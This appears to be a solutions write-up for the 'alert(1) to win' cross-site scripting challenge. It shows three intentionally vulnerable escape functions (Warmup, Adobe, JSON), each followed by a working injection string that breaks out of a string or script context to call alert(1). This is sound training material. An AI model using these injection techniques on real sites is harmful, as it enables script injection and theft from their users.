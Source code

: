# alert(1) to win

[alf.nu/alert(1)](<https://alf.nu/alert(1)>)

> The code below generates HTML in an unsafe way. Prove it by calling `alert(1)`.

## Warmup ✅

```js
function escape(s) {
  return '<script>console.log("' + s + '");</script>';
}
```

#### Input (12)

```
",alert(1),"
```

#### Output

```html
<script>console.log("",alert(1),"");</script>
```

## Adobe ✅

```js
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

#### Input (14)

```
\",alert(1))//
```

#### Output

```html
<script>console.log("\\",alert(1))//");</script>
```

## JSON ✅

```js
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

#### Input (27)

```
</script><script>alert(1)//
```

#### Output

```html
<script>console.log("</script><script>alert(1)//");</script>
```
